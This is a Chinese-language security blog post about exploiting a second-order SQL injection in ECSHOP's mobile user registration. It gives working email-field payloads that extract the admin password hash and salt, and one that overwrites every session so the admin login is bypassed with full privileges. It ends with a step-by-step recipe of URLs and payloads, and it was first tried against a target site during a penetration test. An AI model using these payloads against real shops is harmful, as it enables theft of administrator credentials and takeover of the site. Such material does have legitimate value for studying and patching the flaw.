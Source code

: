 > 原文链接: https://www.anquanke.com//post/id/82407 


# ECSHOP某二次注入利用姿势研究


                                阅读量   
                                **124905**
                            
                        |
                        
                                                                                    



[![](https://p5.ssl.qhimg.com/t0109bb5aab6accb5f1.png)](https://p5.ssl.qhimg.com/t0109bb5aab6accb5f1.png)

最近渗透的时候遇到了ECSHOP，从网上搜了下，比较新的漏洞是乌云黑暗游侠提交的这两个注入

[ECSHOP最新全版本通杀注入](http://www.wooyun.org/bugs/wooyun-2010-086052)

[ECSHOP全版本通杀注射之2](http://www.wooyun.org/bugs/wooyun-2010-088561)

看了下细节，发现两个漏洞成因是一样的，都是出在手机版注册处，**由于手机版在注册时没有对传入的用户名、email做敏感字符的限制，导致了单引号的带入，然后在更新session的时候被带入查询形成二次注入。**

[![](https://p3.ssl.qhimg.com/t01ab2df2caec8c4709.png)](https://p3.ssl.qhimg.com/t01ab2df2caec8c4709.png)

测试了下目标站，发现确实存在漏洞，利用截图里的poc也成功获得了数据库的信息，但是当我进一步构造用户名准备获取管理员账号密码时却发现出不来数据，不是注册的时候就报错就是注册之后登录不上用户。

于是自己下载下来一套程序研究，发现注册的用户名都被截断了

[![](https://p5.ssl.qhimg.com/t0165f4c80ebfc54373.png)](https://p5.ssl.qhimg.com/t0165f4c80ebfc54373.png)

查看表结构：

[![](https://p5.ssl.qhimg.com/t01cb0dd15bf92ab752.png)](https://p5.ssl.qhimg.com/t01cb0dd15bf92ab752.png)

原来用户名和email都只允许60个字节的长度。掐指一算 感觉凭借自己的菜鸡水平估计是调不出直接报错拿管理员密码的exp了，于是想想别的方法。

既然是update型的注入，那就看看有没有输出点吧。

这个注入是在session表中出现的update型注入，因为session表中的数据是要更新到SESSION中的，所以找一个输出$_SESSION的地方应该不难。看了下程序源码，发现当用户登录后，用户中心显示用户名的地方可以输出数据，于是尝试构造用户名，将管理员密码update到session的user_name中。

但是我摸索半天却发现如果管理员只有一个还好，如果有多个，加上limit语句之后就超过了60字节

**',user_name=(select password from ecs_admin_user limit 0,1),ip='  （64字节）**

想了下，如果这样写，就正好可以满足60字符。

**',user_name=(select password from ecs_admin_user limit 0,1)#（60字节）**

但是这样子会将原本sql语句后面的where注释掉，致使所有用户的$_SESSION['user_name']都会被更新成管理员密码，显然不是一个完美的利用方式。

那还有什么更好的方法呢？想了想觉得唯一能缩短的地方也就是在user_name这里，那还有别的输出点么？读了下源代码，发现在用户购买商品时填写收货地址的地方，电子邮件地址是从$_SESSION['email']里取的，而将email作为输出点要比user_name短了4个字节

于是构造用户名 

**',email=(select password from ecs_admin_user limit 0,1),ip=' （60字节）**

正好是60个字节，但是经过测试发现然并卵..因为在程序的update语句中email出现在user_name后面，所以会被覆盖掉…

[![](https://p5.ssl.qhimg.com/t0155da142f1447e2d0.png)](https://p5.ssl.qhimg.com/t0155da142f1447e2d0.png)

忽然想起在第二个漏洞中提及email处其实也是可以带入单引号的，那我们直接将payload放在邮箱处注册，就可以防止被后面的赋值语句覆盖了。于是在邮箱地址处填入

**',email=(select password from ecs_admin_user limit 0,1),ip=' **

注册一个新用户，然后访问/flow.php?step=consignee，成功获得了管理员的hash。

[![](https://p2.ssl.qhimg.com/t0131d4ae6ffbe08926.png)](https://p2.ssl.qhimg.com/t0131d4ae6ffbe08926.png)

由于ecshop的管理员密码是有加salt的，我们还需要在注册一个用户来获得salt。

**',email=(select ec_salt from ecs_admin_user limit 0,1),ip=' **

[![](https://p3.ssl.qhimg.com/t01f8b98745663a7f12.png)](https://p3.ssl.qhimg.com/t01f8b98745663a7f12.png)

成功拿到password和salt后我兴奋的去解，结果显示未查到。。。

忽然感觉一盆冷水浇下。。正在我准备放弃的时候，我站在窗台，想了想mickey牛曾经说过的话：自己约的炮，含着泪也要打完。谨记大牛教诲，我冷静下来再想想该怎么利用。

看了下session表里的数据，忽然发现有一列叫做adminid，修改这个会不会直接就能访问后台了？我打开后台登录界面，然后试着把adminid数值改为1，果然可以访问管理界面了。但是后台的很多功能显示没有权限访问。

去读程序源码，发现程序会判断$_SESSION['action_list']，如果值为all，则可以使用所有功能，$_SESSION['action_list']是从session表的data列直接反序列化得到的。

[![](https://p1.ssl.qhimg.com/t013a46c032cde3cf7d.png)](https://p1.ssl.qhimg.com/t013a46c032cde3cf7d.png)

于是我尝试构造这样的邮箱

**',adminid='1',data='a:1:`{`s:11:"action_list";s:3:"all";`}`'#**

**将所有人的$_SESSION['adminid']设为1，$_SESSION['action_list']设为all。由于在update的语句中data项是在我们可控位置后面的，所以只能使用#注释掉后面的语句，将所有的session都改掉。不过还好，ecshop中后台管理员的session是独立生成的，所以如果之前没有访问过后台页面仍然是无法直接进入的，相对来说还是比较隐蔽的。**

在注册完用户后，刷新几下页面等session更新，然后我再次访问后台，果然直接绕过登陆可以使用所有功能了。

<br>

**总结下来，这个漏洞的最终的利用方法：**

****

**后台登录绕过：**

首先访问后台，建立session



然后访问/mobile/user.php?act=register

在email处填写

```
',adminid='1',data='a:1:`{`s:11:"action_list";s:3:"all";`}`'#
```

在前台登录后再次访问/admin/index.php 就可绕过登录操作后台所有功能。

**获取管理员password：**

访问/mobile/user.php?act=register

在email处填写

```
',email=(select password from ecs_admin_user limit 0,1),ip='
```

提交注册，在首页登录刚才注册的用户，然后访问<br>

/flow.php?step=consignee

即可获得password

**获取管理员salt：**

方法同上

```
',email=(select ec_salt from ecs_admin_user limit 0,1),ip='
```


